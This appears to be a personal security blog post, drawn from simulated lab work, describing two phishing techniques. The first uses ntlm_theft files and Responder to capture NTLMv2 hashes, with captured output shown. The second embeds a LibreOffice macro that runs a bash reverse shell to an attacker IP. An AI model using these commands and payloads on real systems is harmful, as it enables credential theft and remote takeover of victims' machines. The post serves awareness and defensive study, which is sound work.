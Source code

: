 +++
title = "Bait, Hook, and Hack"
description = "Few tactics and techniques behind phishing attacks i have came accrossed in simulated labs xD"
date = 2024-09-07T07:40:10+01:00
+++

Phishing is like fishing with a twist—except instead of catching fish, you're trying to reel in sensitive information. Cybercriminals use cunning tactics to craft emails and websites that look all too real, hoping you'll bite. In this post, we're going to break down the phishing process from the initial bait to the final hook. You'll learn how these attacks are set up, how to spot them, and what you can do to protect yourself.

![](https://i.pinimg.com/originals/69/d8/57/69d857971d2740bad7ba184aa1ffc52e.gif#center)

In my simulated lab experiences, I’ve encountered several phishing scenarios that highlight the sophistication of these attacks. From deceptive emails that mimic trusted sources to cleverly disguised phishing websites, these examples offer valuable insights into how attackers operate. Understanding these tactics not only helps in recognizing potential threats but also enhances your ability to defend against them effectively.



## **Scenario 1 : Linking to Trouble**


In this scenario, we delve into the art of crafting a seemingly innocent `.lnk` file, but with a malicious twist. Our approach involves creating a `.lnk` file designed to exploit vulnerabilities in the Windows environment. We start by creating this file with the following tool called "[`ntlm_theft`](https://github.com/Greenwolf/ntlm_theft.git)" created by ***Green Wolf***.



![](https://i.imgur.com/NhM27Ou.png)



```bash
############ Command Breakdown ##############
# -g: generate all file formats
# -s: IP SMB hash capture server (Responder, smbserver.py)
# -f: Base filename without extension

python3 ntlm_theft.py -g all -s 10.11.69.221 -f secfortress
```



Once this nefarious file is crafted and uploaded to a shared SMB location, it awaits an unsuspecting victim. When the user interacts with the file, it silently triggers a process that captures and returns their NTLM hash. Before deploying our malicious `.lnk` file, it’s crucial to ensure that we have the necessary write access to an SMB share, or an alternative method for file transfer such as `FTP` or `IMAP`.


![](https://i.imgur.com/TsEKR40.png)


> As demonstrated, ensuring that a user (with malicious intent) has write access to an SMB share is crucial for delivering a valid payload. This access allows the attacker to upload the malicious `.lnk` file to the share. However, this scenario isn't always straightforward. In some trusted environments, users may be granted extensive privileges, including the ability to upload files to areas that are implicitly trusted. Consequently, files uploaded to these locations are often accepted without scrutiny, making them prime targets for exploitation. This highlights the importance of monitoring and restricting file uploads in trusted areas to mitigate potential risks.


![](https://i.imgur.com/lDlpwrP.png#center)



We can then intercept this valuable hash, opening the door to further exploitation. This technique highlights the power of seemingly benign files and the critical importance of vigilance against such subtle threats. By understanding and simulating these attacks, you gain insight into the sophisticated methods attackers use to compromise systems and the steps you can take to defend against them.



```bash
❯ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]

--SNIP--

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 192.168.165.30
[SMB] NTLMv2-SSP Username : REDACTED\Tracy.White
[SMB] NTLMv2-SSP Hash     : Tracy.White::REDACTED:9bbf8934331a4560:7E3E7EB81FF46C2022052D262FF86FED:0101000000000000804E1194E3EEDA012C0D0C83CBDD665900000000020008004F0031003400450001001E00570
049004E002D004300420041003200580050004B00420052005500300004003400570049004E002D004300420041003200580050004B0042005200550030002E004F003100340045002E004C004F00430041004C00030014004F00310034004
5002E004C004F00430041004C00050014004F003100340045002E004C004F00430041004C0007000800804E1194E3EEDA0106000400020000000800300030000000000000000100000000200000452F70F2B66A34630BD52340E899C3B9A07
2F2D5A53D205FCBB235EA806B7FB60A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200330035000000000000000000
[*] Skipping previously captured hash for REDACTED\Tracy.White
```


## **Scenario 2 : Macro Mayhem**

We’ve seen a surge in `VBS` macro-based attacks recently, such as **CVE-2023-23399** and **CVE-2023-28311**, which have exploited vulnerabilities in common office software. In this section, we'll provide a quick guide on how to manually generate similar malicious macros. From embedding them into documents using tools like LibreOffice or Microsoft Excel, to executing them on a target system for a potential reverse shell.

Below is a short example of crafting a malicious macro in LibreOffice, designed to open a reverse shell to a remote attacker:

{{< drive id="1eht1kZT8IVZF5-2AWZnSfPAz2EACGEJq" type="preview" >}}


 **Breaking Down the Macro**

- **`REM ***** BASIC *****`**: This line denotes the beginning of a macro script written in LibreOffice BASIC, which is a scripting language similar to Visual Basic for Applications (VBA).

- **`Sub Main`**: Defines the start of the macro subroutine named "Main." This is where the script begins execution when triggered.

- **`shell(...)`**: This command executes a shell command on the target system. Here, it uses the `bash` shell to initiate a reverse shell connection.

- **`bash -c 'bash -i >& /dev/tcp/192.168.0.158/4444 0>&1'`**: This is the core payload. It runs a bash command that creates an interactive reverse shell, sending input and output to the attacker's IP (`192.168.0.158`) over TCP port `4444`. When executed, it effectively gives the attacker remote control of the target system.

- **`End Sub`**: Marks the end of the macro subroutine.

Getting a reverse shell is as simple as sending the malicious `.odt` file to your unsuspecting colleague who "clicks everything," and waiting for them to open it. Once they do, the reverse shell pops on the attacker's listener, as long as the target uses Bash or any Linux OS.


![](https://i.imgur.com/6oBaIwd.png#center)


By embedding this macro into a document and enticing the target to enable macros upon opening, the attacker can establish a reverse shell, gaining unauthorized access to the target system. This example highlights how easy it is to weaponize common office documents, and it underscores the importance of exercising caution with any files that prompt you to enable macros.


```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.0.158 33474
bash: cannot set terminal process group (1654): Inappropriate ioctl for device
bash: no job control in this shell
sec-fortress@Pwn-F0rk-3X3C:~$ whoami
whoami
sec-fortress
```

## **Closing the Net!**


![](https://i.pinimg.com/originals/fb/7d/81/fb7d811ce69c58730714a38ede4d4d3e.gif#center)

As we close the chapter on phishing, remember that staying one step ahead of cyber criminals is key. From sneaky `.lnk` files to crafty macros, these attacks exploit human trust and technical vulnerabilities. By understanding these methods, you can better protect yourself and your organization. Always be cautious with unexpected files and links, and never hesitate to verify their legitimacy. With awareness and vigilance, you can turn the tables on these digital predators and keep your information secure. Stay alert, stay informed, and keep phishing at bay! 

**Take note that this is based on my experiences in simulated labs, and there are many more phishing techniques out there. The landscape of phishing is constantly evolving, so staying updated and informed is crucial.**


## **Resources**


- [Phishing methodology](https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology)
